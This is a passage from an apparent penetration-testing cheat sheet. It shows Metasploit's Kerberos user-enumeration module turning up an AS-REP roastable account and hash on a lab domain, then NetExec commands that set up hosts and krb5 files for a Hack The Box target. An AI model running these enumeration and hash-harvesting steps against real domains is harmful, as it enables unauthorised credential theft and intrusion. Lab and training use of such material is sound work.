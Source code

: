 ```console
set rhosts <DC>
```

```console
set domain <DOMAIN>
```

```console
run
```

```console {class="sample-code"}
msf6 auxiliary(gather/kerberos_enumusers) > run

[*] Using domain: DANTE - 172.16.2.1:88        ...
[*] 172.16.2.1 - User: "user1" user not found
[*] 172.16.2.1 - User: "user2" user not found
[*] 172.16.2.1 - User: "user3" user not found
[+] 172.16.2.1 - User: "user4" does not require preauthentication. Hash: $krb5asrep$23$ ---[SNIP]--- 9161d63be1
---[SNIP]---
[*] Auxiliary module execution completed
```

{{< /tabcontent >}}

---

### Kerberos Ticket (From Linux)

#### 1. Config /etc/hosts

```console
sudo nxc smb <DC_IP> --generate-hosts-file /etc/hosts
```

```console {class="sample-code"}
$ sudo nxc smb 10.129.235.149 --generate-hosts-file /etc/hosts
SMB         10.129.235.149  445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False) 
                                                                                                                                                                                                                    
$ tail -n1 /etc/hosts
10.129.235.149     DC.administrator.htb administrator.htb DC
```

#### 2. Config /etc/krb5.conf

```console
sudo nxc smb <DC_IP> --generate-krb5-file /etc/krb5.conf
```

```console {class="sample-code"}
$ sudo nxc smb 10.129.235.149 --generate-krb5-file /etc/krb5.conf
SMB         10.129.235.149  445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False) 

$ cat /etc/krb5.conf

[libdefaults]
    dns_lookup_kdc = false
    dns_lookup_realm = false
    default_realm = ADMINISTRATOR.HTB

[realms]
    ADMINISTRATOR.HTB = {
        kdc = dc.administrator.htb
        admin_server = dc.administrator.htb
        default_domain = administrator.htb
    }
```